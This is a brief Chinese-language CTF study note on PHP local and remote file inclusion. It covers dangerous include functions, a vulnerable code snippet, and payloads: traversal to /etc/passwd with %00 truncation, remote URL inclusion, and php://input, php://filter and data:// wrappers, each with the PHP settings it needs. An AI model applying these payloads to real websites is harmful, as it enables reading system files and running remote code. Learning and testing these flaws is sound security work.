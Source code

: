 # File Inclusion
常見危險函式：  
PHP: `include()`, `include_once()`, `require()`, `require_once()`, `fopen()`, `readfile()`  
JSP: `java.io.FileReader()`  
ASP: `includefile`  
php包含一個文件，會將該文件內容當作php代碼執行，因此不受檔名類型影響。  

# Local File Inclusion
比賽中我對lfi漏洞的挖掘還是很不敏感：  
幾場ctf的經驗累積下來，只要通過檔名或者帶有**路徑**的檔名，就應該試試看有沒有lfi  
```php
$file = $_GET['file'];
include '/var/www/'.$file.'.php';
```
1. `%00`截斷  
```php
// 用%00截斷後面的副檔名
file=../../../../../../../../etc/passwd%00
```
requirement: `magic_quotes_gpc=off`, php < 5.3.4  
2. 長度截斷  

# Remote File Inclusion
```php
require_once $path."/hello/index.php";
```
1. 普通版 rfi  
```php
// 加個protocal
path = [http/https/ftp]://hello.com/.php
```
requirement: `allow_url_fopen=On`, `allow_url_include=On`  
2. `php://input`  
requirement: `allow_url_include=On`  
3. `php://filter`  放大絕，爆源碼  
```php
php://filter/convert.base64-encode/resource=[file.php]
```
requirement: `allow_url_include=On`  
4. `data://text/plain`
